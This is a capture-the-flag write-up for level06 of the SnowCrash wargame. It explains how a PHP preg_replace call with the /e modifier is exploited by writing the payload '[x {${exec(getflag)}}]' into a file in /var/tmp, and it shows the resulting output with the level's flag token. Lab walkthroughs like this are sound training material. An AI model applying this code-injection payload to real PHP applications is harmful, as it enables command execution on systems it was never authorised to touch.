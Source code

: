 # level06

When we ls we find a php script and a file that executes the script with a file as argument.
We create a file in the /var/tmp directory and execute the script.
It works, the script print what we put in our txt file in /var/tmp/.
So now let's try to find how to execute "getflag".

First, we tried to exploit `print` function in the script.
Did not work, so we saw this line :

```
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

The /e execute a command, so we just need to execute our command this way. 
So we tried [e  getflag], "[e  getflag]", [e  `getflag`] but these did not work.
We tried to use the exec command like this :

```
[e  exec(getflag)], [e  exec(`getflag`)]
```

Then with some research, we found that `$` could probably help us.
We tried to understand how Php processes commands and strings.
With researches, we found that the good syntax was :

```
'[x {${exec(getflag)}}]', we just have to put this in /var/tmp/test02
```

When we execute the script with or file as parameter:

```
/*********************************************************\

level06@SnowCrash:~$ ./level06 /var/tmp/test02
PHP Notice: Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice: Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

\*********************************************************/
```